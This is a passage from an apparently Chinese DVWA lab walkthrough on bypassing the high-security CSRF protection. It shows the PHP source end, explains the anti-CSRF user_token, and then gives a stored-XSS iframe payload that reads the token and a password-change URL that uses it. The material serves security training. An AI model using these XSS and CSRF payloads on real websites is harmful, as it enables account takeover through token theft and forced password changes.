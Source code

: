 ``` php
​    $return_message = "Passwords did not match.";
  }

  mysqli_close($GLOBALS["___mysqli_ston"]);

  if ($request_type == "json") {
    generateSessionToken();
    header ("Content-Type: application/json");
    print json_encode (array("Message" =>$return_message));
    exit;
  } else {
    echo "<pre>" . $return_message . "</pre>";
  }
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

多了个**user_token**

>  CSRF token机制，用户每次访问改密页面时，服务器都会返回一个随机的token，当浏览器向服务器发起请求时，需要提交token参数，而服务器在收到请求时，会优先检查token，只有token正确，才会处理客户端的请求。

需要用到存储型XSS，这个界面就有XSS

![image-20250510203601545.png](https://previewengine.zohopublic.com.cn/image/WD/w7e3cdcbae94f5fb94716be2abce02dd152eb)

有字数限制，先改字数，再上传

![image-20250510204114263.png](https://previewengine.zohopublic.com.cn/image/WD/w7e3c7bee9e7a70a84568a35150ea5cc98afc)

 ```js
 <iframe src="http://127.0.0.1/DVWA/vulnerabilities/csrf/index.php"onload=alert(frames[0].document.getElementsByName('user_token')[0].value)></iframe>
 ```

会弹出它的**user_token**

获得user_token后再用上面的方法

```
http://127.0.0.1/DVWA/vulnerabilities/csrf/index.php?password_new=1&password_conf=1&Change=Change&user_token=ee164777d981c0d56060b22569c6b81f#
```

























